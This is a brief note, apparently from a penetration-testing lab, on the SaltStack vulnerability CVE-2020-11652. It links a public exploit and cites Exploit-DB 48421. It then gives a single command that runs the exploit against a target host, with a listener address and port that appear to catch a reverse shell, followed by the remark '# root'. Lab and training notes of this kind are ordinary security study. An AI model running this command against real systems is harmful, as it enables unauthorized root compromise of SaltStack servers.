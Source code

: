 CVE\-2020\-11652

[https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py](#https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py)


Saltstack exploit 
exploitdb \- 48421 

python 48421\.py \-m 192\.168\.201\.62 \-p 4506 \-lh 192\.168\.45\.221 \-lp 80 \-\-exec\-choose master
# root
